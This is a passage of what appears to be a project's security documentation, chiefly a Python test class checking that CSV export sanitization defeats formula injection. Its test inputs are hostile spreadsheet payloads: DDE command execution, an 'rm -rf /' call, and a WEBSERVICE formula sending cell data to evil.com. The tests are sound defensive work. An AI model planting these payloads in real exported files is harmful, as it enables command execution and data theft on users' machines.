 ### 3. CSV Security Tests

```python
class TestCSVSanitization:
    """Test CSV injection prevention"""
    
    def test_formula_injection_prevention(self):
        """Test prevention of CSV formula injection"""
        dangerous_inputs = [
            "=cmd|'/c calc'!A0",
            "=system('rm -rf /')",
            "+WEBSERVICE('http://evil.com/'&A1)",
            "-2+3+cmd|'/c calc'!A0",
            "@SUM(1+1)*cmd|'/c calc'!A0"
        ]
        
        for dangerous_input in dangerous_inputs:
            sanitized = sanitize_csv_field(dangerous_input)
            # Should not start with dangerous characters
            assert not sanitized.startswith(('=', '+', '-', '@'))
            # Should not contain formula patterns
            assert 'cmd' not in sanitized or not sanitized.startswith('=')
    
    def test_safe_csv_generation(self):
        """Test complete CSV generation security"""
        headers = ["Provider", "Instance", "=malicious_formula"]
        rows = [
            ["AWS", "t3.small", "=cmd|'/c calc'!A0"],
            ["Google", "e2-micro", "+WEBSERVICE('http://evil.com/')"]
        ]
        
        csv_content = create_safe_csv_content(headers, rows)
        
        # No line should start with dangerous characters
        for line in csv_content.split('\n'):
            if line.strip():
                first_field = line.split(',')[0]
                assert not first_field.startswith(('=', '+', '-', '@'))
```

## Security Monitoring

### 1. Security Metrics

**Tracked Metrics**:
- Input validation failure rate
- CSV export security sanitization events
- CORS violation attempts
- Environment security check results

### 2. Security Logging
